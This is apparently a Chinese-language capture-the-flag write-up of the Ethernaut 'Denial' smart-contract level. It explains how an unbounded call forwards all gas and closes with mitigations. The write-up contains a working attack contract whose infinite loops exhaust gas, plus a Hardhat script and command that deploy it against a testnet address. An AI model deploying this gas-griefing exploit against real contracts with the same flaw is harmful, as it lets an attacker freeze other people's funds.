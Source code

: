 # Ethernaut - Denial 關卡

## 關卡介紹

Denial 關卡要求你成為合約的 partner 並阻止 owner 提取資金。即使合約中有足夠的資金且交易的 gas 限制為 1M 或更少，仍需確保 owner 無法成功執行 withdraw() 函數。

## 目標合約分析

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Denial {
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address public constant owner = address(0xA9E);
    uint256 timeLastWithdrawn;
    mapping(address => uint256) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint256 amountToSend = address(this).balance / 100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value: amountToSend}("");
        payable(owner).transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] += amountToSend;
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint256) {
        return address(this).balance;
    }
}
```

## 漏洞分析

這個合約的主要漏洞在於 `withdraw()` 函數中的 `partner.call{value: amountToSend}("")` 方法：

1. **Gas 限制問題**：
   - 合約使用 `call` 方法轉帳時沒有設置 gas 限制
   - 因此 partner 合約可以消耗交易中的所有可用 gas

2. **執行順序問題**：
   - 合約先執行 partner 的轉帳，然後才執行 owner 的轉帳
   - 如果 partner 轉帳步驟消耗完所有 gas，後續步驟將無法執行

3. **缺少資金保護機制**：
   - 合約沒有防範惡意 partner 消耗過多 gas 的機制
   - 沒有提供 owner 的緊急提款機制

## 攻擊方法

我們可以創建一個惡意合約，其 `receive()` 或 `fallback()` 函數會故意消耗所有可用的 gas，使 `withdraw()` 函數無法完成執行，從而阻止 owner 獲得資金。

### 攻擊合約

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IDenial {
    function setWithdrawPartner(address _partner) external;
    function withdraw() external;
}

contract AttackDenial {
    // 目標 Denial 合約
    IDenial public target;
    
    constructor(address _target) {
        target = IDenial(_target);
    }
    
    // 設置自己為 partner
    function attack() external {
        target.setWithdrawPartner(address(this));
    }
    
    // 在接收以太幣時消耗所有 gas
    receive() external payable {
        // 使用無限循環來消耗所有 gas
        while(true) {}
    }
    
    // 備用接收函數，以防止 receive 沒有被觸發
    fallback() external payable {
        // 同樣使用無限循環消耗所有 gas
        while(true) {}
    }
}
```

### 部署和攻擊腳本

```typescript
import hre from "hardhat";
const { ethers } = hre;

async function main() {
    console.log("開始執行 Denial 合約攻擊腳本...");

    // 目標合約的地址
    const targetAddress = "0xBBa23DbF343d46966D990dc7245577D3681ba12B";
    
    // 部署攻擊合約
    const attackFactory = await ethers.getContractFactory("AttackDenial");
    const attackContract = await attackFactory.deploy(targetAddress);
    await attackContract.waitForDeployment();
    
    // 執行攻擊，將攻擊合約設置為 partner
    await attackContract.attack();
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

## 攻擊原理

1. 我們部署 `AttackDenial` 合約並將目標 Denial 合約地址傳入構造函數
2. 通過 `attack()` 函數將攻擊合約設置為 Denial 合約的 partner
3. 當 Denial 合約執行 `withdraw()` 時，它會向攻擊合約發送資金
4. 攻擊合約的 `receive()` 函數會執行一個無限循環，消耗所有可用 gas
5. 由於 gas 耗盡，Denial 合約無法完成執行到 owner 轉帳的部分
6. 因此 owner 無法提取資金，我們成功阻止了 withdraw 操作

## 執行攻擊

```shell
npx hardhat run scripts/attackDenial.ts --network optimismSepolia
```

## 防範措施

為防止類似的漏洞，合約開發者應該：

1. **限制 Gas 使用量**：
   - 使用 `call{gas: specificAmount}` 來限制轉發給外部合約的 gas
   - 或使用 `transfer()` 或 `send()` 方法（內建 2300 gas 限制）

2. **使用拉取模式（Pull Pattern）**：
   - 改用「拉取」而非「推送」模式發送資金
   - 讓接收者自行調用提款函數，而不是主動發送

3. **Checks-Effects-Interactions 模式**：
   - 先進行所有狀態變更，最後才與外部合約交互
   - 這樣即使外部調用失敗，狀態也已經正確更新

4. **添加緊急提款機制**：
   - 為 owner 提供緊急提款函數
   - 在特殊情況下繞過正常提款流程

## 學習心得

這個關卡展示了 Solidity 中 `call` 方法的危險性：它會轉發所有可用的 gas，且不會自動回滾。相比之下，`transfer` 和 `send` 方法限制 gas 為 2300 單位，可以減少此類攻擊的風險。

總之，在處理資金轉移時，始終要謹慎設計交互模式，並遵循已驗證的安全模式。
